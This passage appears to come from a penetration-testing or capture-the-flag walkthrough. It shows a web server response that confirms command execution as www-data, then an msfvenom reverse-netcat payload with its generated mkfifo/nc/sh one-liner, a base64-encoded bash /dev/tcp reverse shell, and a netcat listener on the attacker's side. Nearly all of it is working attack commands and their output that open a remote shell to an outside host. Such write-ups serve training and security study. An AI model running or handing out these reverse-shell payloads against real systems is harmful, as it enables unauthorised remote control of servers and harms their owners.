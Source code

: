 ```bash
HTTP/1.1 200 OK
Date: Tue, 10 Sep 2024 11:34:05 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 61
Connection: close
Content-Type: text/html; charset=UTF-8

["uid=33(www-data)","gid=33(www-data)","groups=33(www-data)"]    
```

> **Creating Reverse Shell Payload**
> 

`msfvenom -p cmd/unix/reverse_netcat lhost=10.2.37.37 lport=12244 R`

```bash
Payload size: 93 bytes
mkfifo /tmp/sfqzj; nc 10.2.37.37 12244 0</tmp/sfqzj | /bin/sh >/tmp/sfqzj 2>&1; rm /tmp/sfqzj

bWtmaWZvIC90bXAvc2Zxemo7IG5jIDEwLjIuMzcuMzcgMTIyNDQgMDwvdG1wL3NmcXpqIHwgL2Jpbi9zaCA+L3RtcC9zZnF6aiAyPiYxOyBybSAvdG1wL3NmcXpq
```

`echo -n 'bash -i >& /dev/tcp/10.2.37.37/22244 0>&1' | base64`

```bash
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yLjM3LjM3LzIyMjQ0IDA+JjE=
```

For more payloads:

[Bind Shell - Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/)

> **Gathering Reverse Shell via Web Server**
> 

`nc -nlvp 22244`

```bash
listening on [any] 22244 ...
```

![image.png](image%204.png)
